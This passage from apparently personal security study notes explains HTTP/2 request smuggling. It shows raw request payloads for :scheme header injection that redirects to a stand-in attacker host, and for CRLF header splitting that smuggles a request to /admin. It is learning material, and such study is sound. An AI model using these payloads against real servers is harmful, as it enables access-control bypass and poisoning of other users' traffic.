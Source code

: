 Once rewritten in HTTP/1, it becomes:
```http
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vulnerable-website.com
```

**Scheme**:
This can be useful when the server uses the `:scheme` header to dynamically generate a URL, for example. In this case, you could add a prefix to the URL or even override it completely by pushing the real URL into the query string:

*Request*
```http
:method	GET
:path	/anything
:authority	vulnerable-website.com
:scheme	https://evil-user.net/poison?
```

*Response*
```http
:status	301
location	https://evil-user.net/poison?://vulnerable-website.com/anything/
```

## HTTP/2 request splitting

When we looked at [Response queue poisoning](Exploiting%20HTTP-2%20Request%20Smuggling.md#Response%20queue%20poisoning), the split occurred inside the message body, but when HTTP/2 downgrading is in play, you can also cause this split to occur in the headers instead.

```http
:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

This approach is more versatile because you aren't dependent on using request methods that are allowed to contain a body. This is also useful in cases where the `content-length` is validated and the back-end doesn't support chunked encoding.

>[!warning] Account for front-end rewriting!
>To split a request in the headers, you need to understand how the request is rewritten by the front-end server and account for this when adding any HTTP/1 headers manually. For example, you need to ensure that both requests received by the back-end contain a `Host` header.
>
>Some front-end servers **append** the new `Host` header to the end of the current list of headers. Considering the request above, the results would be:
>```http
>GET / HTTP/1.1
>foo: bar
>
GET /admin HTTP/1.1
Host: vulnerable-website.com
Host: vulnerable-website.com
>```
In this case, you need to position your injected `Host` header so that it ends up in the first request once the split occurs:
>```http
>:method	GET
:path	/
:authority	vulnerable-website.com
foo	